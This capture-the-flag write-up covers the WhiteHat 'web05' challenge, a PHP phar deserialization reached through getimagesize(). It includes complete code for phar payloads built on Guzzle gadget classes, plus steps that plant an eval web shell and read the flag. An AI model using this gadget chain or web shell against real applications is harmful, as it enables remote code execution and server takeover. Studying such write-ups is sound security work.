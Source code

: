 # web05 (Point: 370)

![web01](images/5.1.png)

## TL;DR

**Phar Deserialization using getimagesize() to Rce.**

## Vulnerability

### Source code leak

Doing a view-source on page displays the location of source code `src.zip`.

### Phar deserialization

In fetchImage.php Line 123, we have this like
```
images[] = [
            'Src' => absoluteSource($element->src, $url), // <img [src]> 
            'Width' => $element->width,
            'Height' => $element->height,
        ];
...
foreach ($images as $imageInfo) {
    $image = $imageInfo['Src']; // get source
    ...
    list($width, $height) = getimagesize($image);
}
```

* So if we host a page on some server http://1.2.3.4/page.html, this code will look for all images in the page and do a getimagesize on it.
* So a image src like `<img src='phar://../file'>` will take src `phar://../file` and `getimagesize('phar://../file')`. So that gets phar deserialization.


### Phar gadgets

So we have 2 contenders for phar gadget.(Just search for __destruct)
* FileCookieJar.php 
    ```
    public function __destruct()
    {
        $this->save($this->filename);
    }
    ```
* Fnstream.php
    ```
    public function __destruct()
    {
        if (isset($this->_fn_close)) {
            call_user_func($this->_fn_close);
        }
    }
    ```

### No proper check for valid image type

Server only checks if uploaded file have valid extension and mime type and nothing else.


### EXPLOIT

1. 1st we will use `Fnstream.php` to call `phpinfo()` and get Full path disclosure.
    ```
    namespace GuzzleHttp\Psr7 {
        
        class FnStream { public $_fn_close = "phpinfo"; }
        
        $phar = new \Phar("exp1.phar");
        
        $phar->startBuffering();
        $phar->addFromString("test.txt", "test");
        $phar->setStub("<?php __HALT_COMPILER();");
        
        $payload = new FnStream();
        $phar->setMetadata($payload);
        $phar->stopBuffering();
    }
    ``` 
    This will output `exp1.phar`.

2. Upload the `exp1.phar` to the app and note the path `upload/3a0a6pipr3vv0b3qkokbuf92f3/e45036cd2596c9daa1d8bd22.jpg`

3. Host an `test.html` on our server with contents:
    ```
        <html>
        <head></head>
        <body>
            <img src="phar://../upload/3a0a6pipr3vv0b3qkokbuf92f3/e45036cd2596c9daa1d8bd22.jpg" />
        </body>
        </html>
    ```
    and use the **Fetch From URL** functionality to fetch the url `http://1.2.3.4:9001/test.html`

    ![web5.2](images/5.2.png)

4. Now we will use FileCookieJar destructor to obtain a full shell. Use the following code to generate exp2.phar and save it exp2.jpg

    ```
    <?php
    use GuzzleHttp\Client;
    include('vendor/autoload.php');
    ​
    $jar = new GuzzleHttp\Cookie\FileCookieJar('/app/upload/3a0a6pipr3vv0b3qkokbuf92f3/shell.php', true);
    $jar->setCookie(new GuzzleHttp\Cookie\SetCookie([
        'Domain'  => 'ass',
        'Name'    => 'kek',
        'Value'   => '<?php eval($_GET[1]); ?>',
        'Discard' => false
    ]));
    ​
    $phar = new \Phar("exp2.phar");
    $phar->startBuffering();
    $phar->addFromString("test.txt", "test");
    $phar->setStub("<?php __HALT_COMPILER();");
    $phar->setMetadata($jar);
    $phar->stopBuffering();
    ```
 Follow the step 2,3 and 4 to upload and execute the phar and if successfull, you will have a shell at http://52.78.36.66/upload/3a0a6pipr3vv0b3qkokbuf92f3/shell.php

 5. Read the flag

    http://52.78.36.66/upload/3a0a6pipr3vv0b3qkokbuf92f3/shell.php?1=readfile("/flag.txt");


### FLag

WhiteHat{ph4r_d3_w1th_4_t1ny_b4ck_do0r_7fc88491}

![Flag5](images/5.3.png)


